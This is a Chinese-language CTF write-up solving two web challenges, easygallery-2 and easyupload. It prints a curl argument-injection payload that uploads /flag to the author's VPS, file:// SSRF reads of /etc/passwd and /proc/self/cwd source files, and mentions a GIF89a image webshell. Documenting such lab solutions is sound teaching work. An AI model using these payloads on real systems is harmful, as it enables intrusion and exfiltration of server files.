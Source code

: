 ### easygallery-2

同样，在HTML源码里面有这样一个链接

[http://xxx/download.php?f=http://127.0.0.1/img/portfolio-1.jpg](http://xxx/download.php?f=http://127.0.0.1/img/portfolio-1.jpg)  
这次再使用file:///flag%23.jpg 会提示scheme error!，说明后端代码可能禁用了file协议。使用上题相同的方法，可以发现后台使用的是curl来访问我们的VPS。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084354-a6c7c500-8f06-1.png)

猜测后台可能是直接用拼接字符串，然后执行curl命令。尝试访问 [http://xxx/download.php?f=http://39.108.143.11:8888/index.php+-d+mochazz%23.jpg](http://xxx/download.php?f=http://39.108.143.11:8888/index.php+-d+mochazz%23.jpg) 发现其请求是 POST方式，所以这题很有可能是命令执行。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084400-aa925646-8f06-1.png)

尝试使用 [http://xxx/download.php?f=http://39.108.143.11:8888/index.php+-d+/flag%23.jpg](http://xxx/download.php?f=http://39.108.143.11:8888/index.php+-d+/flag%23.jpg) 没有获得flag，继续尝试curl的-F参数。最终payload：  
[http://xxxx/download.php?f=http://VPS/index.php+-F+myflag=@/flag+-F+x=mochazz.jpg](http://xxxx/download.php?f=http://VPS/index.php+-F+myflag=@/flag+-F+x=mochazz.jpg)

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084407-ae7343c4-8f06-1.png)

### easyupload

上传文件后没有回显文件地址，但以base64图片形式显示。page参数存在文件包含，但是过滤了://无法使用php伪协议读取源码。后台代码应该类似 `include $_GET['page'].'.php';` 。上传zip文件时，还会显示显示不允许的文件类型!upload jpg or gif。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084413-b1fafba4-8f06-1.png)

上传图片处还有一个功能，可以填在线图片地址，我们可以通过这里结合file协议读取/etc/passwd

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084419-b5dbe436-8f06-1.png)

源码里面base64解密就是文件内容。尝试读取 /var/www/html/index.php 等文件都失败了，可能网站路径不是这个。但是我们可以通过 file:///proc/self/cwd/index.php 获得index.php文件。在linux中，每个进程都有一个PID，而/proc/xxx/下存放着与该进程相关的信息（这里的xxx就是PID）。/proc/xxx/下的cwd是软链接，self表示本进程。当我们通过访问Apache运行的网站时，/proc/self/cwd/就相当于apache的根目录，例如我本机Apache的根目录是/var/www/html

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084424-b8faeff4-8f06-1.png)

file:///proc/self/cwd/index.php

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084430-bcb01700-8f06-1.png)

file:///proc/self/cwd/upload.php

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084441-c32c538c-8f06-1.png)

这题我们前面说过可以直接添加GIF89a上传图片马，接下来就是要找到图片路径了。

路径定义在upload.php中，关键代码如下：

```
$name= $_FILES['pic']['name'];
$ext = pathinfo($name,PATHINFO_EXTENSION);
$filename=basename($name,$ext);
$rootpath=$ddir.md5($filename).".".$name;
```

